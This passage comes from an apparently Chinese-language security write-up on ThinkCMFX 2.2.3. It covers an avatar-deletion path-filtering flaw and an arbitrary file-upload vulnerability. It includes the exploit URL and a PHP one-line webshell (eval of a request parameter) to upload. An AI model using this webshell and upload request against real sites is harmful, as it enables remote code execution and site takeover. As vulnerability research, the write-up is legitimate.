 从文件可以看到 $imgurl=str_replace('/','',$imgurl); 过滤了 / 但是没有过滤 所以我们无法引入 / 并且在更新头像以后还会从前端接收参数 imgurl 带入函数 sp_delete_avatar 跟进去

路径：ThinkCMFX\application\Common\Common\function.php 方法：function sp_delete_avatar(

![image](img/68668c647ecbe905246237651047b49d.png)

#### 0x04 前台任意上传漏洞

##### 0x04.1 漏洞演示

记得一定要登录! 记得一定要登录! 记得一定要登录! 记得在前台注册一个账号进行登录或是直接登录后台然后在访问此地址

```
打开 url: http://atest.test/cms/ThinkCMFX_2.2.3/index.php?g=Asset&m=Ueditor&a=upload&action=uploadfile
POST:
file = php 一句话木马的文件

1.php
<?php
eval($_REQUEST[1]); 
?> 
```

![image](img/809531bace4a92f2b52e14eefda2c231.png)
